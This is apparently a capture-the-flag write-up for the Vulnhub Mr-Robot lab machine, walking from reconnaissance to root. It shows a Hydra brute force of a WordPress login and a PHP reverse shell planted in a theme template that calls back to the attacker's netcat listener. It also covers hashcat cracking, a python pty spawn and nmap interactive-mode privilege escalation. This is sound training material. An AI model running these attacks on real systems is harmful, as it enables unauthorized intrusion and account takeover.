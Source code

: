 # This is the write up for the Vulnhub box MR-ROBOT: 1 

Box Ip Address: 10.38.1.112

Attacking Machine Ip: 10.38.1.110
## **Information Gathering**
---
Starting with an Nmap port Scan we see this output:

![](Images/2022-04-28-20-51-11.png)

The two open ports are the HTTP port 80 and the HTTPS port of 443. These two ports being open, we can assume that this is a web server.

Upon navigating to the server address within a web browser we are greeted with this:

![](Images/2022-04-28-20-55-54.png)

After poking around with the listed commands and running into dead-ends we can view the `/robots.txt file` which gives us this: 

![](Images/2022-04-28-21-09-55.png)

It looks like we have the first key! If we insert `key-1-of-3.txt` where `robots.txt` was we are able to view the key: `073403c8a58ald80d943455fb30724b9`

![](Images/2022-04-28-21-17-08.png)


After navigating back to `robots.txt` we can use this command we can pull down the dictionary file.
```
wget 10.38.1.112/fsocity.dic
```

Attempting to `cat` the file we can see there is a ton of scrolling entries. If we instead pipe the command to `wc -l` we see there are 858,160 lines in this file. 

![](Images/2022-04-28-21-30-48.png)

If we use `cat` and pipe the command to `grep -i "robot"` we see that the file repeats itself.

![](Images/2022-04-28-21-41-41.png)


Let's use this command to count the number of unique entries
```
cat fsocity.dic | sort -u | wc -l
```

After doing so we see there are 11,451 unique entries. We will now use this command to save these entries into a new dictionary file
```
cat fsocity.dic | sort -u >> new_fsocity.dic
```

Now lets use `dirb` to see if we can find any more directories in this page
```
dirb http://10.38.1.112 /usr/share/wordlists/dirb/common.txt
```

This is the output of that command

![](Images/2022-04-28-22-06-39.png)

After running into the dead-end that was the `/readme` we can turn our attention to the `/login/`. Which we then see a login screen for WordPress

![](Images/2022-04-28-22-16-59.png)

When we viewed the `fsocity.dic` file earlier, one of the first entries that seemed like it could be a username was `Elliot`  

![](Images/2022-04-28-22-18-37.png)

If we attempt to brute force our way into the `Elliot` username and use the password `password` we see that Elliot is, in fact, the name of a user.

![](Images/2022-04-28-22-20-19.png)

Now that we have a user we can use a `Hydra` command to try and brute force his password. We know that logins use a POST request so our structure looks like this:
```
hydra -vv -l elliot -P /home/kali/Desktop/new_fsocity.dic 10.38.1.112 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect' 
```

And after about 5 minutes we have this nice message: 

![](Images/2022-04-28-22-48-28.png)

So now we have `elliot's` password, which is: `ER28-0652`


## **Exploitation**
---
When looking for these flags, the easiest way I can think of is to somehow get into a shell. Knowing the website is run on `.php` we can do a quick google search for `"php reverse shell kali linux location"` we find the location of the reverse shell code at `/usr/share/laudenum/php/php-reverse-shell.php`

we need to nano this code and make some changes prior to uploading it to wordpress. These are the changes we need to make

![](Images/2022-04-28-23-29-34.png)

ip needs to be set to our kali box `ip` of `10.38.1.110` and the `port` can be set to `443`

Next we need to open a new terminal and start a NetCat listener for port 443
```
nc -lnvp 443
```

Navigating to appearance/editor in the wordpress site and using the `404 template` we can paste our new php script.

![](Images/2022-04-28-23-32-50.png)

Once we save the script we can make a new tab and put the URL as `10.38.1.112/hi` to trigger the netcat listener which gives us our shell access. 

![](Images/2022-04-28-23-34-46.png)

Through a series of directory traversals we now have access to `key-2-of-3.txt` and `password.raw-md5`

![](Images/2022-04-28-23-38-04.png)

If we try to view the key file we get permission denied. This is due to the owner of the file being the user `robot`

if we `cat` the password file we get this md5 hash

![](Images/2022-04-28-23-41-58.png)

We can use the hashcat tool to crack this password hash. To do this, we need to copy the contents of `password.raw-md5` to our kali desktop, delete the `robot:`, and run this command
```
hashcat -m 0 password.raw-md5 /usr/share/wordlists/rockyou.txt
```

After about one minute hashcat will have cracked the password and we see this:

![](Images/2022-04-28-23-58-47.png)

So for the user `robot` the password is `abcdefghijklmnopqrstuvwxyz`

Now from our reverse shell we can `su` to the user `robot` and view the file but doing so yields this error: 

![](Images/2022-04-29-00-08-05.png)

After googling this problem, we can actually spawn a bash shell using python and this command.
```
python -c 'import pty;pty.spawn("/bin/bash")'
```
Doing so will get us a bash terminal where we then can `su` into the user `robot`

We then can `cat` the key file and see key 2 is `822c73956184f694993bede3eb39f959`

![](Images/2022-04-29-00-15-16.png)

# Escalation

Moving onto the last key we can make an assumption that we must elevate our permiissions to be `root` 

Using this command we can see what version of nmap we are running:
```
nmap --version
```

Oh look, we are running an older version of nmap.

![](Images/2022-04-29-10-35-56.png)

After a quick search online we find out we can use this version of nmap in it's interactive mode to escalate our privileges to root.
```
nmap --interactive
```
Then once inside we can run
```
!/bin/bash
```
We see by doing this we can get the normal bash shell. Let's exit and try a different shell
```
!sh
```
Then
```
whoami
```
It looks like that gave us the root access we need!!

![](Images/2022-04-29-10-41-45.png)

If we navigate to `/root` and look in the directory we see the file for `key-3-of-3.txt`

![](Images/2022-04-29-10-43-20.png)

If we `cat` the file we are rewarded with our third and final key!!!

![](Images/2022-04-29-10-44-17.png)


# Congratulations!!!

#### Thanks so much for coming along on this journey with me